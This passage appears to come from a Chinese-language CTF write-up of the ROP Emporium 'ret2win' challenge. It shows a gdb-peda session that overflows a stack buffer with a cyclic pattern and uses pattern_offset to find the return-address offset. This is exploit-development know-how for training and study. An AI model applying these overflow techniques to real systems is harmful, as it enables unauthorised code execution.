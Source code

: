 
而且由于 ret 的地址不存在，程序停在了 `=> 0x400810 <pwnme+91>: ret` 这一步，这是因为 64 位可以使用的内存地址不能大于 `0x00007fffffffffff`，否则就会抛出异常。
```
gdb-peda$ r
Starting program: /home/firmy/Desktop/rop_emporium/ret2win/ret2win 
ret2win by ROP Emporium
64bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x7fffffffe400 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")
RBX: 0x0 
RCX: 0x1f 
RDX: 0x7ffff7dd4710 --> 0x0 
RSI: 0x7fffffffe400 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")
RDI: 0x7fffffffe401 ("AA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")
RBP: 0x6141414541412941 ('A)AAEAAa')
RSP: 0x7fffffffe428 ("AA0AAFAAb")
RIP: 0x400810 (<pwnme+91>:      ret)
R8 : 0x0 
R9 : 0x7ffff7fb94c0 (0x00007ffff7fb94c0)
R10: 0x602260 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA\n")
R11: 0x246 
R12: 0x400650 (<_start>:        xor    ebp,ebp)
R13: 0x7fffffffe510 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x400809 <pwnme+84>: call   0x400620 <fgets@plt>
   0x40080e <pwnme+89>: nop
   0x40080f <pwnme+90>: leave  
=> 0x400810 <pwnme+91>: ret    
   0x400811 <ret2win>:  push   rbp
   0x400812 <ret2win+1>:        mov    rbp,rsp
   0x400815 <ret2win+4>:        mov    edi,0x4009e0
   0x40081a <ret2win+9>:        mov    eax,0x0
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe428 ("AA0AAFAAb")
0008| 0x7fffffffe430 --> 0x400062 --> 0x1f8000000000000 
0016| 0x7fffffffe438 --> 0x7ffff7a41f6a (<__libc_start_main+234>:       mov    edi,eax)
0024| 0x7fffffffe440 --> 0x0 
0032| 0x7fffffffe448 --> 0x7fffffffe518 --> 0x7fffffffe870 ("/home/firmy/Desktop/rop_emporium/ret2win/ret2win")
0040| 0x7fffffffe450 --> 0x100000000 
0048| 0x7fffffffe458 --> 0x400746 (<main>:      push   rbp)
0056| 0x7fffffffe460 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000400810 in pwnme ()
gdb-peda$ pattern_offset $rbp
7007954260868540737 found at offset: 32
gdb-peda$ pattern_offset AA0AAFAAb
AA0AAFAAb found at offset: 40
```
